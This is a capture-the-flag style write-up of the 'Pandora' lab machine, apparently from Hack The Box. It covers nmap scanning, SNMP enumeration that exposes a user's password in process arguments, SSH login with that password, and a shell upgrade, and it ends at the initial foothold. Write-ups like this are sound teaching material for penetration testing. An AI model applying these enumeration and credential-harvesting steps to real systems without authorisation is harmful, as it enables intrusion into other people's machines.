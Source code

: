 

# Pandora Writeup

![Pandora](C:\Users\Usuario\Downloads\Pandora.png)



## Enumeration

So we will start with a nmap port scan on the machine using the following command:
```bash
nmap -sS -min-rate 5000 --open -vvv -n -Pn -p- pandora.htb -oG allPorts
```
We will discover the:
- 22/tcp open  ssh 
- 80/tcp open  http

after analyzed all the page it seems like nothing interesting so far
So what i did was to make an UDP nmap port scan

```bash
nmap -sU --top-ports 100 --open -T5 -v -n pandora.htb`
```

Now we found the;
- 161/udp open  snmp





## SNMP

Now we are going to use snmpwalk tool to enumerate the target
```bash
snmpwalk -c public -v2c pandora.htb 1 > snmpwalk.txt
```
As you can see we are going to save the output in a .txt file so we can filter some information using grep, we also put a "1" next to the target IP, this is used to get a little bit more of data from the target.
## Foothold
We will found the next line on the .txt file, it gave us the daniel's user credentials

```HOST-RESOURCES-MIB::hrSWRunParameters.1126 = STRING: "-u daniel -p HotelBabylon23"```

We can try those credentials to login via ssh to the target
```sh
ssh daniel@pandora.htb
```
It works! now that we are logged as daniel via ssh on the target, we will upgrade our shell using:



```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
